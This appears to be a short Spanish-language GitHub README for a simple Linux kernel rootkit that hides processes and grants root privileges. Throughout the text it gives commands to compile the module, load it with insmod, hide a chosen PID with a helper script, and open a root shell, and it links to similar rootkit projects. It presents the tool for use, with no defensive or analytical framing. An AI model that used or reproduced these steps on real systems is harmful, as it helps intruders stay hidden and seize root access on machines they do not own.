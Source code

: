 #Rootkit simple para linux

Este rootkit puede ocultar procesos y elevar privilegios como root

#Compilado:

 $ sudo apt-get install linux-headers-$(uname -r)
 $ cd rootkit
 # make

#Instalación:

 # insmod rt.ko

#Uso:

#Para ocultar algun proceso
 # tools/rtcmd.py hpXXXX    // XXXX -> PID

#Para devolver una terminal como root
 # tools/rtcmd.py modulo4root /bin/bash

#Referencias:

~https://github.com/ivyl/rootkit
~http://www.cyberciti.biz/tips/compiling-linux-kernel-module.html
~https://github.com/mrrrgn/simple-rootkit
